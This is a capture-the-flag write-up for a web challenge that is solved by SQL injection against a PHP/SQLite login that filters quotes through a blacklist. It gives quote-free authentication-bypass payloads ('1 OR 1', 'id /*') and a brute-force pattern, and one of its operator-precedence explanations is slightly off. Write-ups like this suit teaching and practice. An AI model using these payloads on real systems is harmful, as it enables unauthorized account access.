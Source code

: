 **Name**: Blacklist  
**Points**: 200  
**Instructions**: There is a website running at http://challenges.runesec.com:37953. Can you login? If not, try smarter not harder.  
**Hint**: Some hackers love the quote symbol. Some developers love the blacklist approach. What about you?  

## Exploration

- We're given the following login portal:
```
<div class="form-group">
   <label for="username">ID:</label>
   <input type="number" id="username" name="id" class="form-control">
</div>
<div class="form-group">
   <label for="password">Password:</label>
   <div class="controls">
      <input type="password" id="password" name="password" class="form-control">
   </div>
</div>
```

- From the hint of this challenge, we know we'll have to craft an SQL injection query to get through. We also know there's a blacklist that filters out some SQL semantics from the input.

- The first HTML input field (for username/id) has `type="number"` so it can only accept numeric values. Not really. We can edit the type to `type="text"` through our browser's dev tools and input whatever we want. 

- We could also send our requests outside of the browser, through `curl`, for example.

- Using `'` and `"` in the inputs makes the page throw some errors:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in /problems/blacklist_6/webroot/login.php on line 20   
Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/blacklist_6/webroot/login.php:22 Stack trace: #0 {main} thrown in /problems/blacklist_6/webroot/login.php on line 22
```

## Exploitation

Let's try guess the query that's invoked on the server to authorize users:
```
SELECT * FROM ??? WHERE ???={input} AND ???="{input}";
```
We have no idea what the table is named.  
We have some idea what the 2 columns might be called. `id` and `password` maybe? Let's go with that.

So our guess now is:
```
SELECT * FROM ??? WHERE id={input} AND password="{input}";
```

So, for us to get through, it all boils down to making the expression `id={input} AND password="{input}"` evaluate to true.

*Notice there are no quotes around the input for id. That's because it's expecting a numeric value. We can be confident about that since the UI is only allowing for numeric input.*

#### Solution 1
```
Username: 1 OR 1  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=1 OR 1 AND password="";
```

> SQLite does not have a separate Boolean storage class. Instead, Boolean values are stored as integers 0 (false) and 1 (true). (https://sqlite.org/datatype3.html)

The crafted query above works because `false OR true AND false` => `true`, since `anything OR true` evaluates to `true`, always.  

We're lucky `OR` is not blacklisted.

#### Solution 2
```
Username: id /*  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=id /* AND password="";
```

For this to work we have to correctly guess the column for the username/id field. `id=id` is always `true` since we compare something with itself. `/*` opens a multi-line comment which makes whatever comes after it irrelevant when the query is evaluated. Thus, the password doesn't matter.

#### More Solutions
There are plenty of crafted queries that can get us in, but we have a strong preference towards short and concise solutions.  

We could also (naively) write a script to brute force the id:
`id=0 /*`  
`id=1 /*`  
`id=-1 /*`  
`id=2 /*`  
`id=-2 /*`  
...  
`id=9000 /*`  
`id=-9000 /*`  
...  
...  
...  
*To infinity and beyond!*
